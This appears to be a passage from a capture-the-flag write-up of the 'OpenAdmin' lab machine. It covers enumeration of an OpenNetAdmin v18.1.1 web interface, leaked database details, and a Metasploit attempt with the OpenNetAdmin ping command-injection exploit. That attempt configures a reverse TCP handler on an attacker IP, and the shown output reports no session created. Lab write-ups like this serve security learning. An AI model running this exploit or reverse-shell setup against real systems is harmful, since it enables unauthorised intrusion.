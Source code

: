 clicking on 'login' takes us to `/ona` which has a lot going on.

> You are NOT on the latest release version
> Your version    = v18.1.1
> Latest version = Unable to determine
> Please DOWNLOAD the latest version

download is a link to [http://opennetadmin.com/download.html](http://opennetadmin.com/download.html)


additionally see
> Add a DNS domain
> Add a new subnet
> Add a new host
> Perform a search
> List hosts

and currently showing there is 1 DNS domain, which is `openadmin.htb`

looks like ONA does allow `guest` authentication.

and leaks some useful details for later:
```
Database Host	localhost
Database Type	mysqli
Database Name	ona_default
Database User	ona_sys
Database Context	DEFAULT
Database Context Desc	Default data context
```

### ONA

let's see what metasploit has to say
```
msf6 > search opennetadmin

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/opennetadmin_ping_cmd_injection  2019-11-19       excellent  Yes    OpenNetAdmin Ping Command Injection

```

but

```
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set RHOST openadmin.htb
RHOST => openadmin.htb
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set LHOST 10.10.14.9
LHOST => 10.10.14.9
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.9:4444
[*] Exploiting...
[*] Command Stager progress - 100.00% done (703/703 bytes)
[*] Exploit completed, but no session was created.
```
